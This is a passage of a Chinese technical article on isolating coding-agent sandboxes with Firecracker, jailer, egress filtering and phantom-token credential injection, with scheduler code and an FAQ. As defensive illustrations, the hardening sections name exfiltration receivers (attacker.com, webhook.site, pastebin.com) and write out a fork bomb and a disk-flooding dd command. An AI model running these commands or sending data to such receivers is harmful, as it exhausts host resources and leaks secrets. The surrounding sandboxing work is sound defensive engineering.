1. **L3/L4 层强制封死内网与云元数据（nftables / TC eBPF）**：在宿主机 TAP 接口入口（Ingress from VM）挂载 eBPF 或 `nftables` 规则，**无条件丢弃（DROP）**所有目的地址属于链路本地元数据段 `169.254.0.0/16`（彻底阻断 AWS/GCP/阿里云 IMDS `169.254.169.254`）、RFC1918 私有地址段（`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`）、环回段及多播段的报文，同时拦截除宿主机本地 DNS/Proxy 端口外的所有直连流量，防止攻击者绕过代理直连公网 IP。
2. **域名级 SNI 白名单过滤**：沙箱配置 `HTTPS_PROXY` 指向宿主机监听在专用桥接地址（或通过 `vsock` 隧道转发）的七层代理网关。网关首先解析 `CONNECT` 请求的目标域名与 TLS `SNI`，仅放行当前任务策略允许的域名列表（如 `api.github.com`、`files.pythonhosted.org`），直接拒绝任何未知外部接收端（如 `attacker.com`、`webhook.site`、`pastebin.com`）。
3. **Phantom Token 边界外代填（MITM Credential Injection）**：对于需要注入密钥的受控域名（如 `api.github.com`），宿主机为每次会话动态签发一张短生命周期客户端 CA 证书注入沙箱信任库。当沙箱内 `curl` 或 `git` 携带 `Authorization: Bearer fc_phantom_9f8a` 发起请求时，宿主机 L7 网关在 **MicroVM 硬件边界之外**终止 TLS，校验两件事：**（a）该幻影 Token 是否归属于当前沙箱 ID；（b）当前请求的目标域名是否是该密钥唯一授权绑定的域名**（防止攻击者故意把 GitHub 幻影 Token 发往另一个同样在白名单里的第三方域名骗取网关解密代填！）。双重校验通过后，网关才在出站连接上替换为真实凭据并转发。如此一来，即便攻击者在沙箱内拿到了 `root` 权限并把整个内存镜像翻个底朝天，拿到的也只是一串离开该宿主机绑定关系即刻作废的随机乱码。

---

## 四、生产级实战：构建基于 Firecracker API + `jailer` + `vsock` 的毫秒级 Agent 沙箱调度器

纸上谈兵终觉浅。本节我们严格依据 AWS Firecracker 官方 OpenAPI 规范（`firecracker.yaml`）与 `jailer` 安全加固最佳实践，从零编写一套可直接用于生产原型的**毫秒级快照恢复与状态分叉沙箱调度系统**。



### 4.1 阶段一：构建黄金母版 MicroVM 并生成预热快照

在制作母版快照时，我们先进入检查点构建目录克隆一份干净的 `rootfs.ext4`，再通过 Unix Domain Socket 调用 Firecracker REST API 配置内核、根文件系统、`machine-config`（开启 `track_dirty_pages: true` 以支持后续增量快照）以及 `virtio-vsock` 设备，待 Guest 内部的 Python/Node 环境及 `guest-agent` 预热就绪后将其冻结落盘：

```bash
#!/usr/bin/env bash
set -euo pipefail

CKPT_DIR="/srv/fc-snapshots/base-v1"
API_SOCK="/tmp/fc-golden-builder.sock"
mkdir -p "${CKPT_DIR}" && cd "${CKPT_DIR}"
cp --reflink=always /srv/fc-images/golden-rootfs.ext4 ./rootfs.ext4
rm -f "${API_SOCK}" ./v.sock

# 启动母版构建专用 Firecracker 进程 (在线运行阶段由 jailer 严格包裹在 chroot 内)
firecracker --api-sock "${API_SOCK}" &
FC_PID=$!
trap 'kill -9 "${FC_PID}" 2>/dev/null || true; rm -f "${API_SOCK}"' EXIT
while [ ! -S "${API_SOCK}" ]; do sleep 0.01; done

# 1. 配置无压缩 vmlinux 内核与启动参数 (启用 kvm-clock 并关闭冗余串口探测加速启动)
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/boot-source' \
  -H 'Content-Type: application/json' \
  -d '{
    "kernel_image_path": "/srv/fc-images/vmlinux-6.1.102",
    "boot_args": "console=ttyS0 reboot=k panic=1 pci=off nomodules clocksource=kvm-clock random.trust_cpu=on init=/sbin/guest-init"
  }'

# 2. 使用相对路径 ./rootfs.ext4 挂载黄金根文件系统与令牌桶 I/O 限流器
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/drives/rootfs' \
  -H 'Content-Type: application/json' \
  -d '{
    "drive_id": "rootfs",
    "path_on_host": "./rootfs.ext4",
    "is_root_device": true,
    "is_read_only": false,
    "io_engine": "Async",
    "rate_limiter": {
      "bandwidth": { "size": 104857600, "refill_time": 1000 },
      "ops": { "size": 5000, "refill_time": 1000 }
    }
  }'

# 3. 配置 2 vCPU、2048 MiB 内存并开启脏页追踪 (track_dirty_pages)
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/machine-config' \
  -H 'Content-Type: application/json' \
  -d '{
    "vcpu_count": 2,
    "mem_size_mib": 2048,
    "smt": false,
    "track_dirty_pages": true
  }'

# 4. 挂载 virtio-vsock 设备 (guest_cid >= 3; 0/1/2 为系统保留 CID)
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/vsock' \
  -H 'Content-Type: application/json' \
  -d '{
    "vsock_id": "vsock0",
    "guest_cid": 3,
    "uds_path": "./v.sock"
  }'

# 5. 启动母版 MicroVM 并通过 vsock 确认预热守护进程已将常用库载入 Guest RAM
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/actions' \
  -H 'Content-Type: application/json' \
  -d '{"action_type": "InstanceStart"}'

python3 - <<'PY'
import socket, time
for _ in range(100):
    try:
        with socket.socket(socket.AF_UNIX, socket.SOCK_STREAM) as s:
            s.connect("./v.sock")
            s.sendall(b"CONNECT 5000\n")
            if s.makefile("rb").readline().startswith(b"OK "):
                s.sendall(b'{"op":"warmup","imports":["json","numpy","pandas"]}\n')
                assert b'"status":"ok"' in s.makefile("rb").readline()
                break
    except OSError:
        time.sleep(0.05)
else:
    raise RuntimeError("Guest vsock daemon warmup timed out")
PY

# 6. 冻结 vCPU 并转储黄金全量快照 (vm.state + vm.mem)
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PATCH 'http://localhost/vm' \
  -H 'Content-Type: application/json' \
  -d '{"state": "Paused"}'

curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/snapshot/create' \
  -H 'Content-Type: application/json' \
  -d '{
    "snapshot_type": "Full",
    "snapshot_path": "./vm.state",
    "mem_file_path": "./vm.mem"
  }'
```

> [!IMPORTANT] 快照路径相对性陷阱（Path Matching Inside Jailer Chroot）
> Firecracker 的 `vm.state` 中会持久化记录创建快照时块设备的 `path_on_host` 与 `vsock` 的 `uds_path`。在生产环境使用 `jailer` 恢复快照时，`jailer` 会执行 `chroot` 将 `/srv/jailer/firecracker/<vm_id>/root` 变为 Firecracker 进程眼中的根目录 `/`。因此制作母版快照时，强烈建议将 `path_on_host` 与 `uds_path` 统一使用相对于工作目录的洁净路径（如 `./rootfs.ext4` 和 `./v.sock`），并在恢复前把 CoW 克隆盘硬链接或放置到对应 `chroot` 根目录下！

### 4.2 阶段二：编写生产级 Python 异步沙箱调度器（含 `jailer` 防御、毫秒级恢复与状态分叉）

下面实现的 `FirecrackerSandboxManager` 完整封装了四大生产级核心原语：
1. **`jailer` 纵深防御与资源硬限流**：为每个沙箱分配独立非特权 UID/GID，通过 `--cgroup-version 2` 强制施加 `cpu.max`（限制双核配额）、`memory.max`（防止宿主机 OOM）与 `pids.max`（即使 VMM 被攻破也彻底免疫宿主机 Fork 炸弹）。
2. **`acquire_from_snapshot`**：利用 XFS `cp --reflink=always` 在 `2 ms` 内克隆独立可写根磁盘，硬链接共享只读 `vm.mem`（触发 `MAP_PRIVATE` CoW），也可一键切换为 `Uffd` 后端，调用 `/snapshot/load` 与 `PATCH /vm` 在 `10 ms` 量级唤醒沙箱。
3. **`exec_via_vsock`**：严格实现 Firecracker `CONNECT <port>\n` -> `OK <host_port>\n` 握手协议，并内置单次命令墙钟超时熔断。
4. **`fork_checkpoint`**：为 MCTS 或强化学习 Rollout 将当前正在运行的沙箱原地冻结并生成分支检查点，瞬间繁衍出任意数量的平行兄弟沙箱。

```python
from __future__ import annotations

import asyncio
import json
import os
import shutil
import signal
import uuid
from dataclasses import dataclass
from pathlib import Path
from typing import Any, Literal


@dataclass
class SandboxHandle:
    vm_id: str
    chroot_root: Path
    api_sock: Path
    vsock_uds: Path
    process: asyncio.subprocess.Process
    uid: int


class FirecrackerSandboxManager:
    """面向 Coding Agent 与 RL Rollout 的生产级 Firecracker 快照沙箱调度器。"""

    def __init__(
        self,
        jailer_bin: str = "/usr/bin/jailer",
        firecracker_bin: str = "/usr/bin/firecracker",
        chroot_base: Path = Path("/srv/jailer"),
        snapshot_store: Path = Path("/srv/fc-snapshots"),
        guest_agent_port: int = 5000,
    ) -> None:
        self.jailer_bin = jailer_bin
        self.firecracker_bin = firecracker_bin
        self.chroot_base = chroot_base
        self.snapshot_store = snapshot_store
        self.guest_agent_port = guest_agent_port
        self._uid_cursor = 200000

    def _next_isolated_uid(self) -> int:
        self._uid_cursor += 1
        return self._uid_cursor

    async def _fc_api_request(
        self,
        api_sock: Path,
        method: str,
        endpoint: str,
        payload: dict[str, Any],
    ) -> None:
        """通过异步 Unix Domain Socket 直接向 Firecracker 发送最小化 HTTP/1.1 请求。"""
        body = json.dumps(payload).encode("utf-8")
        request_bytes = (
            f"{method} {endpoint} HTTP/1.1\r\n"
            f"Host: localhost\r\n"
            f"Accept: application/json\r\n"
            f"Content-Type: application/json\r\n"
            f"Content-Length: {len(body)}\r\n"
            f"Connection: close\r\n\r\n"
        ).encode("ascii") + body

        reader, writer = await asyncio.open_unix_connection(str(api_sock))
        try:
            writer.write(request_bytes)
            await writer.drain()
            status_line = (await reader.readline()).decode("ascii", errors="replace")
            raw_resp = await reader.read()
            if not (" 200 " in status_line or " 204 " in status_line):
                raise RuntimeError(
                    f"Firecracker API {method} {endpoint} failed ({status_line.strip()}): "
                    f"{raw_resp.decode('utf-8', errors='replace')}"
                )
        finally:
            writer.close()
            await writer.wait_closed()

    async def acquire_from_snapshot(
        self,
        checkpoint_id: str = "base-v1",
        mem_backend_mode: Literal["File", "Uffd"] = "File",
        uffd_host_sock: Path | None = None,
        cpu_quota_us: int = 200_000,
        mem_limit_bytes: int = 2_415_919_104,  # 2.25 GiB 宿主机硬边界保护
    ) -> SandboxHandle:
        """在十毫秒级延迟内从指定快照检查点唤醒一台全新的硬件隔离 MicroVM。"""
        vm_id = f"sbx-{uuid.uuid4().hex[:12]}"
        uid = self._next_isolated_uid()
        chroot_root = self.chroot_base / "firecracker" / vm_id / "root"
        chroot_root.mkdir(parents=True, exist_ok=True)

        ckpt_dir = self.snapshot_store / checkpoint_id
        # 1. XFS/Btrfs reflink 写时复制克隆 rootfs (毫秒级元数据拷贝，不复制底层数据块)
        dst_rootfs = chroot_root / "rootfs.ext4"
        proc_cp = await asyncio.create_subprocess_exec(
            "cp",
            "--reflink=always",
            str(ckpt_dir / "rootfs.ext4"),
            str(dst_rootfs),
        )
        if await proc_cp.wait() != 0:
            raise RuntimeError("Reflink CoW copy failed; verify XFS reflink=1 or Btrfs mount")
        os.chown(dst_rootfs, uid, uid)

        # 2. 将只读 vm.state 与 vm.mem 硬链接进 chroot 根目录，实现跨沙箱 Page Cache 零拷贝共享
        os.link(ckpt_dir / "vm.state", chroot_root / "vm.state")
        if mem_backend_mode == "File":
            os.link(ckpt_dir / "vm.mem", chroot_root / "vm.mem")
            mem_backend_cfg = {"backend_type": "File", "backend_path": "./vm.mem"}
        else:
            if uffd_host_sock is None:
                raise ValueError("uffd_host_sock is required when mem_backend_mode='Uffd'")
            os.link(uffd_host_sock, chroot_root / "uffd.sock")
            mem_backend_cfg = {"backend_type": "Uffd", "backend_path": "./uffd.sock"}

        os.chown(chroot_root, uid, uid)
        api_sock = chroot_root / "run" / "api.sock"
        (chroot_root / "run").mkdir(exist_ok=True)
        os.chown(chroot_root / "run", uid, uid)

        # 3. 通过 jailer 启动 Firecracker：施加 chroot、非 root 降权与 cgroups v2 硬配额
        jailer_cmd = [
            self.jailer_bin,
            "--id", vm_id,
            "--exec-file", self.firecracker_bin,
            "--uid", str(uid),
            "--gid", str(uid),
            "--chroot-base-dir", str(self.chroot_base),
            "--cgroup-version", "2",
            "--cgroup", f"cpu.max={cpu_quota_us} 100000",
            "--cgroup", f"memory.max={mem_limit_bytes}",
            "--cgroup", "memory.swap.max=0",
            "--cgroup", "pids.max=64",
            "--",
            "--api-sock", "/run/api.sock",
        ]
        proc = await asyncio.create_subprocess_exec(
            *jailer_cmd,
            stdout=asyncio.subprocess.PIPE,
            stderr=asyncio.subprocess.PIPE,
        )

        # 等待 jailer 内 API Socket 创建完毕 (通常 < 3 ms)
        for _ in range(200):
            if api_sock.exists():
                break
            await asyncio.sleep(0.002)
        else:
            proc.kill()
            raise TimeoutError(f"Firecracker API socket did not appear for {vm_id}")

        # 4. 加载快照并立即唤醒 vCPU
        await self._fc_api_request(
            api_sock,
            "PUT",
            "/snapshot/load",
            {
                "snapshot_path": "./vm.state",
                "mem_backend": mem_backend_cfg,
                "enable_diff_snapshots": True,
                "resume_vm": True,
            },
        )

        return SandboxHandle(
            vm_id=vm_id,
            chroot_root=chroot_root,
            api_sock=api_sock,
            vsock_uds=chroot_root / "v.sock",
            process=proc,
            uid=uid,
        )

    async def exec_via_vsock(
        self,
        handle: SandboxHandle,
        command: list[str],
        phantom_env: dict[str, str] | None = None,
        timeout_sec: float = 30.0,
    ) -> dict[str, Any]:
        """通过 virtio-vsock 零网络通道向 Guest Agent 下发命令，内置硬超时熔断。"""
        async def _rpc() -> dict[str, Any]:
            reader, writer = await asyncio.open_unix_connection(str(handle.vsock_uds))
            try:
                # Firecracker vsock 多路复用握手协议
                writer.write(f"CONNECT {self.guest_agent_port}\n".encode("ascii"))
                await writer.drain()
                handshake = await reader.readline()
                if not handshake.startswith(b"OK "):
                    raise ConnectionError(f"vsock handshake rejected: {handshake!r}")

                req = {
                    "op": "exec",
                    "cmd": command,
                    # 仅传递无真实机密的 Phantom Token 占位符
                    "env": phantom_env or {},
                }
                writer.write(json.dumps(req).encode("utf-8") + b"\n")
                await writer.drain()

                resp_line = await reader.readline()
                return json.loads(resp_line.decode("utf-8"))
            finally:
                writer.close()
                await writer.wait_closed()

        return await asyncio.wait_for(_rpc(), timeout=timeout_sec)

    async def fork_checkpoint(
        self,
        parent: SandboxHandle,
        branch_count: int = 4,
    ) -> list[SandboxHandle]:
        """将当前父沙箱状态保存为新检查点，并并行分叉出 N 个状态完全一致的兄弟 MicroVM。"""
        fork_ckpt_id = f"fork-{parent.vm_id}-{uuid.uuid4().hex[:6]}"
        fork_dir = self.snapshot_store / fork_ckpt_id
        fork_dir.mkdir(parents=True, exist_ok=True)

        # 1. 暂停父沙箱 vCPU 确保内存与块设备一致性
        await self._fc_api_request(parent.api_sock, "PATCH", "/vm", {"state": "Paused"})
        try:
            await self._fc_api_request(
                parent.api_sock,
                "PUT",
                "/snapshot/create",
                {
                    "snapshot_type": "Full",
                    "snapshot_path": "./fork.state",
                    "mem_file_path": "./fork.mem",
                },
            )
            shutil.move(str(parent.chroot_root / "fork.state"), str(fork_dir / "vm.state"))
            shutil.move(str(parent.chroot_root / "fork.mem"), str(fork_dir / "vm.mem"))
            proc_cp = await asyncio.create_subprocess_exec(
                "cp",
                "--reflink=always",
                str(parent.chroot_root / "rootfs.ext4"),
                str(fork_dir / "rootfs.ext4"),
            )
            await proc_cp.wait()
        finally:
            # 恢复父沙箱继续运行
            await self._fc_api_request(parent.api_sock, "PATCH", "/vm", {"state": "Resumed"})

        # 2. 并发唤醒所有子分支 MicroVM (共享同一份 fork.mem Page Cache)
        return list(
            await asyncio.gather(
                *[self.acquire_from_snapshot(checkpoint_id=fork_ckpt_id) for _ in range(branch_count)]
            )
        )

    async def destroy(self, handle: SandboxHandle) -> None:
        """强制终止 MicroVM 进程并彻底回收 chroot 目录、CoW 磁盘文件与 cgroup 节点。"""
        if handle.process.returncode is None:
            try:
                handle.process.send_signal(signal.SIGKILL)
            except ProcessLookupError:
                pass
            await handle.process.wait()

        jail_dir = self.chroot_base / "firecracker" / handle.vm_id
        shutil.rmtree(jail_dir, ignore_errors=True)
```

### 4.3 生产环境防逃逸与防耗尽加固清单（Defense-in-Depth）

在实际将上述调度器推向日均百万次调用的多租户生产集群时，请务必核查以下四项宿主机纵深防御参数：
- **双层 Fork 炸弹免疫**：Guest 内部用户一旦触发 `:(){ :|:& };:`，其危害完全被限制在 MicroVM 自己的 `2 GiB` 内存和 `2 vCPU` 内，宿主机进程表毫发无损；与此同时，宿主机 `jailer` 施加的 `pids.max=64` 又限制了 VMM 进程自身的辅助线程上限，哪怕遭遇极端 VMM 零日漏洞也无法耗尽宿主机 PID 空间。
- **关闭宿主机 Swap 避免 CoW 抖动（`memory.swap.max=0`）**：对高密快照池必须禁用沙箱 cgroup 的 Swap，配合 PSI（Pressure Stall Information）监控宿主机内存水位，一旦某个分支失控触发内存暴涨，令其迅速在隔离边界内精准 OOM 终止，绝不污染全局磁盘 I/O。
- **块设备 `rate_limiter` 令牌桶限速**：正如第 4.1 节 `/drives/rootfs` 配置所示，务必为每台沙箱配置 `bandwidth`（如 `100 MiB/s`）与 `ops`（如 `5000 IOPS`）令牌桶，防止恶意脚本通过死循环 `dd if=/dev/zero of=/fill bs=4k conv=fsync` 打满宿主机物理 NVMe 队列深度。
- **异步僵死沙箱巡检回收器（Reaper Daemon）**：永远不要仅依赖业务请求协程里的 `finally` 块来做清理。生产节点必须独立运行一个基于租约过期时间（TTL Lease）的守护回收器，扫描超时未续租的 `/srv/jailer/firecracker/sbx-*` 实例、残留 TAP 网卡与过期分叉快照并强制清理。

---

## 常见问题 (FAQ)

### Q1: 在公有云上部署 Firecracker 集群必须购买昂贵的裸金属（`.metal`）实例吗？嵌套虚拟化（Nested Virtualization）能否用于生产？

不一定必须全量使用裸金属，取决于你的延迟敏感度与云厂商实例代际。Firecracker 强依赖 Linux `/dev/kvm` 暴露硬件虚拟化扩展（Intel VT-x `vmx` 或 AMD-V `svm`）。在 **Google Cloud (GCP)** 上，标准计算实例（如 `N2`、`C3` 系列）长期原生支持通过 `--enable-nested-virtualization` 开启嵌套虚拟化；在 **AWS EC2** 上，传统虚拟实例不暴露 `/dev/kvm`，过去必须使用 `c5.metal` / `m6i.metal` 等裸金属机型，但新一代实例如第八代 Intel 实例（`c8i`、`m8i`、`r8i` 等支持嵌套虚拟化的规格）也已允许在非裸金属实例中启用嵌套 KVM。不过从性能工程角度看，嵌套虚拟化（L0 宿主机 -> L1 云主机 -> L2 Firecracker）会放大每次 `VM-Exit`（如缺页异常与 I/O 中断）的陷入开销，快照高并发唤醒延迟通常比裸金属高出 `20% ~ 40%`。因此，研发测试与中小规模并发可直接使用开启嵌套虚拟化的云主机，而高密分布式 RL Rollout 与超低延迟生产池仍推荐裸金属节点。

### Q2: 如果 Agent 沙箱内需要直接运行依赖 NVIDIA GPU 的 CUDA 代码，Firecracker 能支持 GPU 直通（VFIO Passthrough）吗？

**原生不支持。** 这是 Firecracker 最重要的架构取舍边界之一：为了极致的极简安全与微秒级设备初始化，Firecracker 刻意移除了传统的 **PCI / PCIe 总线仿真**，其设备模型基于极简的 `virtio-mmio`，因此无法通过 `vfio-pci` 与 IOMMU 将物理 NVIDIA GPU 或 MIG 实例直接直通挂载进 Firecracker MicroVM。如果你的 Agent 需要验证 GPU 内核（例如自动编写并实测 Triton / CUDA 算子），业界有两种成熟架构解法：其一是将 CPU 沙箱与 GPU 算力解耦——Coding Agent 在无 GPU 的轻量 Firecracker 沙箱中完成代码编辑、语法检查与编译，通过 `vsock` 将编译产物提交给受控的远程 GPU Worker 队列执行；其二是在必须提供完整 VM 级 GPU 直通的场景下，改用同样基于 `rust-vmm` 生态构建但完整支持 PCIe 拓扑与 `vfio-pci` 直通的 **Cloud Hypervisor**（配合 Kata Containers `kata-clh` 运行时）。

### Q3: 从同一个母版快照瞬间克隆出 100 个平行 MicroVM 时，为什么会出现 UUID 重复、TLS 握手随机数碰撞以及系统时钟倒流？该如何根治？

这是快照克隆（Snapshot Cloning）最经典的系统级深坑！当 100 台子虚拟机从同一份 `vm.mem` 恢复时，它们 Guest 内核中的密码学伪随机数发生器（CSPRNG）熵池以及用户态语言运行时的随机数种子（如 Python `random` 或 OpenSSL 内部状态）在恢复瞬间**字节级完全一致**，若不干预就会生成完全相同的临时文件名、UUIDv4 乃至致命的相同 TLS Nonce；同时，由于快照可能创建于数小时前，恢复瞬间 Guest 墙钟时间仍停留在过去，导致 HTTPS 证书有效期校验与 JWT 签名直接报错。生产根治方案包含三步：（1）使用 **Firecracker v1.8+** 搭配 **Linux 5.18+**（ACPI）或 **6.10+**（DeviceTree）Guest 内核启用 **`VMGenID`（Virtual Machine Generation ID）** 设备——每次从快照恢复时，Firecracker 自动更新 128 位代数 ID 并向 Guest 注入中断，触发 Linux 内核立即重播种（Reseed）内核 CSPRNG 熵池，同时挂载 `virtio-rng` 并透传 CPU `RDRAND` 指令；（2）用户态守护进程在收到恢复后首个请求前，避免缓存 fork 前生成的用户态 PRNG 实例，优先直接调用系统 `getrandom()`；（3）内核启动参数显式指定 `clocksource=kvm-clock`，使 KVM 半虚拟化时钟在恢复时自动补偿暂停偏移，并在 `vsock` 握手首包中捎带宿主机精确纳秒级 UTC 时间戳，由 `guest-agent` 调用 `clock_gettime` / `clock_settime` 一步对齐系统墙钟。

### Q4: 在 `PUT /snapshot/load` 时，本地 `File`（`MAP_PRIVATE`）与 `Uffd`（`userfaultfd`）两种内存后端该如何选型？如何消除按需缺页引发的长尾延迟毛刺？

两者的选型核心取决于**母版快照是否已驻留在当前宿主机的本地存储中**。对于高频复用的标准环境（如通用 Python 数据分析母版、标准 SWE-bench 基础镜像），应通过守护进程预先分发到每台工作节点的本地 NVMe 并预热进 Page Cache，直接使用 `"backend_type": "File"`——由 Linux 内核态直接处理软缺页，吞吐最高且不存在用户态上下文切换损耗。而对于成千上万个用户高度定制的专属仓库快照（单节点本地磁盘装不下全量母版），则采用 `"backend_type": "Uffd"` 配合远程分层缓存。为了消除 `Uffd` 首次触碰冷页时同步等待网络拉取带来的毫秒级毛刺，生产级 UFFD Handler 会记录母版快照唤醒后前 `500 ms` 的缺页偏移序列生成**热工作集位图（Working-Set Bitmap）**：当沙箱在远端节点恢复的瞬间，后台协程无需等待 vCPU 缺页阻塞，就主动并发流式拉取这 `100 ~ 200 MiB` 的核心热点块并提前通过 `UFFDIO_COPY` 灌入内存，将同步缺页率压降 `85%` 以上。
